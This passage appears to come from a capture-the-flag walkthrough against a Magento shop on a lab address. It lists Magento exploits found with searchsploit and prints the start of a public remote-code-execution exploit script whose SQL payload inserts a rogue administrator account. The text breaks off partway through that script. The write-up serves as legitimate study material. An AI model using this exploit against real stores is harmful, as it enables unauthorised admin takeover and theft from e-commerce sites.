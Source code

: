 As we can se the host run `Magento` a very vulnarble CMS for E-Commerce.

Now we can search some exploit.

    searchsploit Magento         
    ------------------------------------------------------------------ ---------------------------------
     Exploit Title                                                    |  Path
    ------------------------------------------------------------------ ---------------------------------
    eBay Magento 1.9.2.1 - PHP FPM XML eXternal Entity Injection      | php/webapps/38573.txt
    eBay Magento CE 1.9.2.1 - Unrestricted Cron Script (Code Executio | php/webapps/38651.txt
    Magento 1.2 - '/app/code/core/Mage/Admin/Model/Session.php?login[ | php/webapps/32808.txt
    Magento 1.2 - '/app/code/core/Mage/Adminhtml/controllers/IndexCon | php/webapps/32809.txt
    Magento 1.2 - 'downloader/index.php' Cross-Site Scripting         | php/webapps/32810.txt
    Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File    | php/webapps/39838.php
    Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution      | php/webapps/37811.py
    Magento eCommerce - Local File Disclosure                         | php/webapps/19793.txt
    Magento eCommerce - Remote Code Execution                         | xml/webapps/37977.py
    Magento eCommerce CE v2.3.5-p2 - Blind SQLi                       | php/webapps/50896.txt
    Magento Server MAGMI Plugin - Multiple Vulnerabilities            | php/webapps/35996.txt
    Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion       | php/webapps/35052.txt
    Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Pro | php/webapps/48135.php
    ------------------------------------------------------------------ ---------------------------------
    Shellcodes: No Results

Evrything that presents `RCE` as a good staff!

Posthumously, I can tell you that after time trying POCs I realized that they needed modifications and that just one for our purpose was not enough.
I will now explain the process.
At first we will use that `xml/webapps/37977.py`

    #!/usr/share/bin python2
    
    import requests
    import base64
    import sys
    
    target = "http://10.10.10.140/index.php"
    
    if not target.startswith("http"):
        target = "http://" + target
    
    if target.endswith("/"):
        target = target[:-1]
    
    target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
    
    q="""
    SET @SALT = 'rp';
    SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
    SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
    INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
    INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
    """
    